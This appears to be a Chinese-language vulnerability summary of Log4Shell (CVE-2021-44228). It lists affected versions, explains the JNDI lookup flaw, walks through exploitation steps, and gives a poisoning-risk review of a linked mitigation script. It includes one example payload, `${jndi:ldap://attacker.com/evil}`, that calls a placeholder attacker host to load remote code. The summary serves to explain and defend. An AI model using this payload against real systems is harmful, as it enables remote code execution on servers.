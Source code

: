 ## CVE-2021-44228-Apache Log4j2 JNDI 远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 2.0-beta9 to 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 目标系统使用了受影响的Log4j2版本，且允许Log消息查找替换。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j 2 中的一个严重漏洞，它允许攻击者通过控制日志消息或日志消息参数来执行任意代码。漏洞原理是 Log4j 2 启用了 JNDI 功能，该功能允许从 LDAP 服务器等远程位置加载代码。攻击者可以构造包含 JNDI 查找的恶意日志消息，例如 `${jndi:ldap://attacker.com/evil}`。当 Log4j 2 记录此消息时，它会尝试从 attacker.com 加载并执行代码。

**利用方式：**

1.  攻击者向使用 Log4j2 的应用程序发送包含恶意 JNDI 查找的请求。这些请求可以通过多种方式发送，例如 HTTP 请求头、POST 请求参数、WebSocket 消息等，只要这些数据会被Log4j记录即可。
2.  应用程序使用 Log4j2 记录接收到的请求，包括恶意 JNDI 查找字符串。
3.  Log4j2 解析日志消息，识别 JNDI 查找字符串，并尝试通过 JNDI 连接到指定的 LDAP 服务器（`attacker.com`）。
4.  LDAP 服务器返回一个包含恶意 Java 类的响应。
5.  Log4j2 加载并执行恶意 Java 类，从而允许攻击者在服务器上执行任意代码。

**有效性：**

根据漏洞库信息和搜索结果，此漏洞的POC是有效的，并且已经在野外被广泛利用。

**投毒风险：**

提供的漏洞利用代码是一个缓解脚本，旨在移除 Log4j JAR 文件中易受攻击的 `JndiLookup` 类。虽然该脚本本身旨在缓解漏洞，但仍然存在一些投毒风险：

*   **依赖项：**  该脚本依赖于 `PyYAML` 和系统命令 `zip` 和 `zipinfo`。如果这些依赖项被篡改或存在漏洞，可能会导致脚本执行恶意代码。
*   **配置：**  该脚本使用 `config.yaml` 文件进行配置。如果攻击者可以修改此配置文件，他们可能会将脚本指向恶意位置或执行其他恶意操作。
*   **脚本逻辑：** 脚本尝试从指定目录查找并修改JAR文件。 存在一定风险，即如果脚本逻辑存在缺陷，脚本可能会意外删除或损坏重要的JAR文件，导致服务中断，但造成远程代码执行的可能性较小。 投毒风险预估为5%。

**项目地址:** [axisops/CVE-2021-44228](https://github.com/axisops/CVE-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)